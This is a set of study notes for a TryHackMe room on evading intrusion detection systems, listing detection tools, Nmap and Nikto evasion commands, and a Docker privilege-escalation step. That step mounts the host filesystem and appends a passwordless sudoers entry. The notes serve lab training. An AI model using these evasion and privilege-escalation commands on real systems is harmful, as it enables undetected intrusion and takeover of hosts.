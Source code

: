 
<a href="https://tryhackme.com/r/room/idsevasion" target="_blank"><img src="./banner.png" width="700px" /></a>

## Background

This room discusses _intruder detection systems_ and how certain attacks will trigger them and generate alerts for systems administrators and SOC analysts.

## Takeaways

* [Graylog](https://graylog.org/products/source-available/) and the [ELK Stack](https://www.elastic.co/elastic-stack/) are used to visualise log data and detect abnormal or even malicious behaviour.
* [Suricata](https://suricata.io/) is a _network-based_ intruder detection system and [Wazuh](https://wazuh.com/) is a _host-based_ intruder detection system.
    * Wazuh will detect linPEAS.
* Use services like _Shodan_, _Censys_, _Google Search_, etc. for passive recon.
* Regarding Nmap:
    * Command to get service version: ``nmap -sV MACHINE_IP``
    * __Evasion Strategy:__ Change the HTTP User Agent with the following command: ``nmap -sV --script-args http.useragent="<USER AGENT HERE>" MACHINE_IP``
    * Scan for vulnerabilities (whilst masking the HTTP User agent): ``nmap --script=vuln --script-args http.useragent="<USER AGENT HERE>" MACHINE_IP``
    * A TCP-SYN scan is a bit more stealthy than a regular TCP scan: ``nmap -sS MACHINE_IP``
* Regarding Nikto:
    * Basic Nikto scan: ``nikto -p 80,3000 -h MACHINE_IP``
    * Command to only scan for useful vulnerabilities: ``nikto -p 3000 -T 1 2 3 -h MACHINE_IP``
    * Command to only scan for useful vulnerabilities and change the HTTP User Agent: ``nikto -p3000 -T 1 2 3 -useragent <AGENT_HERE> -h MACHINE_IP``
    * Command to scan just for useful vulns, mask the HTTP Agent, and use IDS evasion: ``nikto -p3000 -T 1 2 3 -useragent <AGENT_HERE> -e 1 7 -h MACHINE_IP``
* ``fail2ban`` is an intruder prevention daemon that blacklists an IP address if it has too many failed authentication attempts: https://github.com/fail2ban/fail2ban
* Potentially useful Docker privesc: ``docker run -it --entrypoint=/bin/bash -v /:/mnt/ ghcr.io/jroo1053/ctfscoreapache:master``
    * We need to add the current user to the ``sudo`` group. It can be done through:
        * ``/etc/group`` We could add the ``grafana-admin`` account to the ``root`` group. Note this file is covered by the HIDS
        * ``/etc/sudoers``: Editing this file would allow us to add the ``grafana-admin`` account to the ``sudoers`` list and thus, we would be able to run sudo to gain extra privileges. Again, this file is monitored by Wazuh.  In this case, we can perform this by running: ``echo "grafana-admin ALL=(ALL) NOPASSWD: ALL" >>/mnt/etc/sudoers``

